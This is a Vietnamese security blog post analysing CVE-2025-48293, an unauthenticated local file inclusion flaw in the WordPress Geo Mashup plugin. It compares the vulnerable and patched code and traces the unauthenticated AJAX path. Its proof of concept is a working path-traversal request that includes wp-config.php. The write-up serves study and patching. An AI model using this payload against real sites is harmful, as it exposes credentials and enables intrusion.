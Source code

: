 # CVE-2025-48293 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **Geo Mashup** phiên bản **≤ 1.13.16** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-48293](https://www.cve.org/CVERecord?id=CVE-2025-48293)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.13.16
* **Patched Versions**: 1.13.17
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Geo Mashup Plugin](https://wordpress.org/plugins/geo-mashup/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Geo Mashup**: **1.13.16** (vulnerable) và **1.13.17** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {filename="geo-query.php v1.13.16" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? $_GET['template'] : '';
    // other logc
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

`$template_base` được lấy trực tiếp từ `$_GET['template']` **không qua bất kỳ kiểm tra/sanitize nào**.

Kết quả được truyền vào `GeoMashup::locate_template()` rồi dùng [`load_template()`](https://developer.wordpress.org/reference/functions/load_template/) - khả năng kẻ tấn công kiểm soát đường dẫn file để include.

**Bản vá**:

```php {filename="geo-query.php v1.13.17" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? sanitize_key($_GET['template']) : '';
    // other logic
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

[`sanitize_key()`](https://developer.wordpress.org/reference/functions/sanitize_key/) được áp dụng cho `template` => loại bỏ các ký tự không an toàn, ngăn `../`, `\`, và các ký tự đặc biệt làm giảm nguy cơ **path traversal** và **LFI** từ tham số `template`.

### Vulnerable Code 
Ta phân tích logic trong `GeoMashup::locate_template()` có ảnh hưởng gì đến `$template_base`

```php {filename="geo-mashup.php v1.13.16" hl_lines=[3,10,11,12]}
public static function locate_template( $template_base ) {
    $template = locate_template( array("geo-mashup-$template_base.php") );
 
    if ( empty( $template ) || !is_readable( $template ) ) {
        $template = path_join( GEO_MASHUP_DIR_PATH, "default-templates/$template_base.php" );
    }
    return $template;
}
```

`$template` được gán lại giá trị bằng cách gọi `locate_template()` thuộc file **template.php** với đối số `geo-mashup-$template_base.php`

```php {filename="template.php v1.13.16" hl_lines=[]}
function locate_template( $template_names, $load = false, $load_once = true, $args = array() ) {
	global $wp_stylesheet_path, $wp_template_path;

	if ( ! isset( $wp_stylesheet_path ) || ! isset( $wp_template_path ) ) {
		wp_set_template_globals();
	}

	$is_child_theme = is_child_theme();

	$located = '';
	foreach ( (array) $template_names as $template_name ) {
		if ( ! $template_name ) {
			continue;
		}
		if ( file_exists( $wp_stylesheet_path . '/' . $template_name ) ) {
			$located = $wp_stylesheet_path . '/' . $template_name;
			break;
		} elseif ( $is_child_theme && file_exists( $wp_template_path . '/' . $template_name ) ) {
			$located = $wp_template_path . '/' . $template_name;
			break;
		} elseif ( file_exists( ABSPATH . WPINC . '/theme-compat/' . $template_name ) ) {
			$located = ABSPATH . WPINC . '/theme-compat/' . $template_name;
			break;
		}
	}

	if ( $load && '' !== $located ) {
		load_template( $located, $load_once, $args );
	}

	return $located;
}
```

Các logic liên quan đến sự tồn tại của file khi concat với `$template_name` được xử lý, nếu không tồn tại thì trả về chuỗi rỗng `''`

{{< figure src="debug1.png" caption="Các logic liên quan đến sự tồn tại của file" >}}

Khi attack gửi `$_GET['template']` chứa `../` thì mặc định file luôn không tồn tại, luôn trả về `''`

Quay trở lại `GeoMashup::locate_template()`, khi `$template_name` empty và không tồn tại (`!is_readable($template)`) thì được gán lại giá trị và trả về.

```php
const string GEO_MASHUP_DIR_PATH = "/srv/www/wordpress/wp-content/plugins/geo-mashup"

GEO_MASHUP_DIR_PATH.default-templates/$template_base.php
```

👉 `GeoMashup::locate_template()` không ảnh hưởng đến `$template_base` do ta kiểm soát, ta tiến hành tìm cách kích hoạt sự kiện này

```php {filename="geo-query.php v1.13.17" hl_lines=[4]}
if ( ( isset( $_GET['output'] ) and 'json' == $_GET['output'] ) or empty( $_GET['object_ids'] ) ) {
	GeoMashupQuery::generate_location_json( );
} else {
	GeoMashupQuery::generate_object_html( );
}
```

`generate_object_html()` chỉ được gọi khi `$_GET['output']` không được truyền và `$_GET['object_ids']` không empty.

**geo-query.php** chứa logic trên được gọi trong **geo-mashup.php**

{{< figure src="search1.png" caption="**geo-query.php** được gọi trong **geo-mashup.php**" >}}

Hàm `geo_query` là callback của action hook **Unauthenticated**

```php
add_action( 'wp_ajax_nopriv_geo_mashup_query', array( __CLASS__, 'geo_query') );
```

Khi truy cập endpoint `/wp-admin/admin-ajax.php` với param `action=geo_mashup_query` thì callback `geo_query` được gọi.

## Exploit
### Proof of Concept (PoC)
1. Thêm code vào `wp-config.php` để thử nghiệm

```php
echo "Payload";
```

2. Gửi **GET request** với **LFI** payload

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../wp-config HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: green
Priority: u=0, i
```

**Result**:

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

CVE-2025-48293 là LFI do dùng input `template` không kiểm soát khi ghép vào đường dẫn fallback, cho phép path traversal (`..`) và include file ngoài dự định. Đã vá trong **v1.13.17** bằng `sanitize_key()`.

## Key takeaways

* Không dùng input user trực tiếp để build path cho include.
* Dùng **whitelist** hoặc `sanitize_key()` + `realpath()` kiểm tra.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Geo Mashup Plugin <= 1.13.16 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/geo-mashup/vulnerability/wordpress-geo-mashup-plugin-1-13-16-local-file-inclusion-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-13-cve-2025-48293/  


